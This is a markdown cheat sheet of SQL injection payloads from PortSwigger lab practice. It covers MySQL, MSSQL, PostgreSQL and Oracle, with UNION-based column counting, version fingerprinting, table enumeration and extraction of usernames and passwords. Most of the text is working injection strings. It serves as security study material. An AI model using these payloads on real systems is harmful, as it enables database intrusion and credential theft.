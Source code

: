 # SQL Injection Cheatsheets
- Labs from portswigger labs
## SQL Database
> Here are commands to find MySQL, Microsoft SQL server [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

![SQL Database Structure](https://github.com/ashok5141/Application-Security-Cheatsheet/blob/main/Images/SQL_db.png)
- Identifying number of columns available in SQL database to craft the union select command 
```bash
# Pets is the parameter in the URL 
Pets' order by 1#  # Increase the number starting from 1 to so on, when ever you get the 500 error then n-1 columns are their
Pets' order by 3#    # Error 500 internal server error decided with go for 2 columns in this case
Pets' order by 2#     # No error 200 OK
Pets'union select null, null#
```
- Identifying Version of SQL database
```bash
Pets'union select @@version, null#      # Microsoft SQL, MySQL
Pets'union select version(), null#      # PostgreSQL
```
- List of Tables from the Oracle database
```bash
Pets'union select table_name, null from information_schema.tables--      # or you can use # instead of --
```
- Extract Data in tables
```bash
Pets'union select column_name, null from information_schema.columns where table_name = 'users_xacgsm'--    # List of columns
Pets'union select username_pxqwui, password_bfvoxs from users_xacgsm--
Pets'union select username_pxqwui ||'~'|| password_bfvoxs, null from users_xacgsm--  # Printing username and password one cloumn with '~' sign in between
```

## ORACLE Database
> Here are commands to find ORACLE DB [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

![Oracle Database Structure](https://github.com/ashok5141/Application-Security-Cheatsheet/blob/main/Images/Oracle_db.png)
- Identifying number of columns available in Oracle database to craft the union select command 
```bash
# Pets is the parameter in the URL 
Pets' order by 1--    # Increase the number starting from 1 to so on, when ever you get the 500 error then n-1 columns are their
Pets' order by 3--    # Error 500 internal server error decided with go for 2 columns in this case
# Asume here 2 columns, when I use the number 3 error of 500 internal server error
Pets' order by 2--     # No error 200 OK
Pets'union select null, null from DUAL--     # DUALinternal table in ORACLE
Pets'union select 'a', 'a' from DUAL--
```
- Identifying Version of Oracle database
```bash
Pets'union select null, banner from v$version--
```
- List of Tables from the Oracle database
```bash
' union select table_name from all_tables--  # It will provide the table names check for user keywords
```
- Extract Data in tables
```bash
Pets'union select column_name null from+all_tab_columns where table_name = 'USERS_BPAWFN'--    # List of columns
Pets'union select USERNAME_RABKTC,PASSWORD_YOEYVJ from+USERS_BPAWFN--
```

## SQL injection UNION attacks

> when an application is vulnerable to SQL injection, and the results of the query are returned within the application's response, you can use the ```UNION``` keyword to retrive data from other tables within the database. This is commonly know as a SQL injection UNION attack.

- The ```UNION``` keyword enables you to execute one or more additional ```SELECT``` queries and append the results to the original query. For example:
```bash
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
- This SQL query returns a single result set with two columns, containing values from columns ```a``` and ```b``` in ```table1``` and columns ```c``` and ```d``` in ```table2```.
- For a ```UNION``` query to work, two key requirements must be met:
    - The individual queries must return the same number of columns.
    - The data types in each column must be compatible between the individual queries.
- To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:
    - How many columns are being returned from the original query.
    - Which columns returned from the original query are of a suitable data type to hold the results from the injected query.

#### Determining the number of columns required
- When trying the SQL ```UNION``` injection their are 2 ways
- One method
    - ' ORDER BY 1--
- The second method
    - ' UNION SELECT NULL--
- You need to increase the number in order and null value in ```UNION SELECT``` command, until you get an error in the output page.
```bash
# One method
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
# The second method
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
